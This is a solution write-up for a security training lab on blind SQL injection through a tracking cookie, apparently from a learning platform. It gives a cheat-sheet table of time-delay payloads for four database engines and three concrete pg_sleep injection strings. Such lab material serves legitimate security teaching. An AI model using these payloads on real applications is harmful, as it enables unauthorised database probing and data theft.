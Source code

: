 # Lab: Blind SQL injection with time delays
## Lab
This lab contains a __blind SQL injection__ vulnerability. The application uses a tracking cookie for analytics, and performs an SQL query containing the value of the submitted cookie.

The results of the SQL query are not returned, and the application does not respond any differently based on whether the query returns any rows or causes an error. However, since the query is executed synchronously, it is possible to trigger conditional time delays to infer information.

To solve the lab, exploit the SQL injection vulnerability to cause a 10 second delay. 

## Hint

You can find some useful payloads on our SQL injection cheat sheet. 

## Solution

When a request containing a `TrackingId` cookie is processed, the application determines whether this is a known user using an SQL query like this: 
```SQL
SELECT TrackingId FROM TrackedUsers WHERE TrackingId = 'u5YD3PapBcR4lN3e7Tj4'
```
Because SQL queries are generally processed synchronously by the application, delaying the execution of an SQL query will also delay the HTTP response. This allows us to infer the truth of the injected condition based on the time taken before the HTTP response is received. 

From cheat sheet we fuzz payload:
|SQL Server |Payload                                                                                                                                        |
|-----------|-----------------------------------------------------------------------------------------------------------------------------------------------|
|Oracle     |<code>SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN 'a'&#124;&#124;dbms_pipe.receive_message(('a'),10) ELSE NULL END FROM dual            </code>|
|Microsoft  |<code>IF (YOUR-CONDITION-HERE) WAITFOR DELAY '0:0:10'                                                                                   </code>|
|PostgreSQL |<code>SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN pg_sleep(10) ELSE pg_sleep(0) END                                                     </code>|
|MySQL      |<code>SELECT IF(YOUR-CONDITION-HERE,SLEEP(10),'a')                                                                                      </code>|


We have payloads:
`TrackingId=uQfJFCMVLEIT4i5j'||pg_sleep(10)--`
or
`TrackingId=uQfJFCMVLEIT4i5j'%3bSELECT+pg_sleep(10)--`
or
`TrackingId=uQfJFCMVLEIT4i5j'||(SELECT+pg_sleep(10))--`

So that we solved this lab

